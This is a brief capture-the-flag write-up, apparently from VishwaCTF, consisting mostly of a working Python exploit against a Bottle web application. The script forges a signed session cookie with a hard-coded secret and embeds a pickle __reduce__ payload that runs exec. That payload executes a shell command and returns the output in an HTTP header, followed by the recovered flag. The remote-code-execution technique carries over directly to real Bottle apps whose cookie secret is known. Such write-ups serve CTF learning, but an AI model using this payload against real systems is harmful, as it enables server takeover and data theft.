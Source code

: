 # Prompt Injection

> Stolen chall

Got similiar chall writeup [here](https://www.norelect.ch/writeups/sekaictf2022/bottle_poem/)

Our script
```python
import os, hmac, hashlib, base64, pickle, requests

def tob(s, enc='utf8'):
    if isinstance(s, str):
        return s.encode(enc)
    return b'' if s is None else bytes(s)

def touni(s, enc='utf8', err='strict'):
    if isinstance(s, bytes):
        return s.decode(enc, err)
    return str("" if s is None else s)

def create_cookie(name, value, secret):
    d = pickle.dumps([name, value], -1)
    encoded = base64.b64encode(d)
    sig = base64.b64encode(hmac.new(tob(secret), encoded, digestmod=hashlib.md5).digest())
    value = touni(tob('!') + sig + tob('?') + encoded)
    return value

class PickleRCE(object):
    def __reduce__(self):
        return (exec,("""
from bottle import response
import subprocess,base64
flag = subprocess.check_output('/flag', shell=True)
response.set_header('X-Flag',base64.b64encode(flag))
""",))

session = {"name": PickleRCE()}
cookie = create_cookie("name", session, "trrrrrrrrrrrrryyyyyyyyyyyharddddddddd")

r = requests.get("https://ch68760157955.ch.eng.run/sign", cookies={"name": cookie})
print(base64.b64decode(r.headers["x-flag"]).decode("ascii"))
```

# Flag: `VishwaCTF{W3lcome_t0_p03m_p0ck3t}`

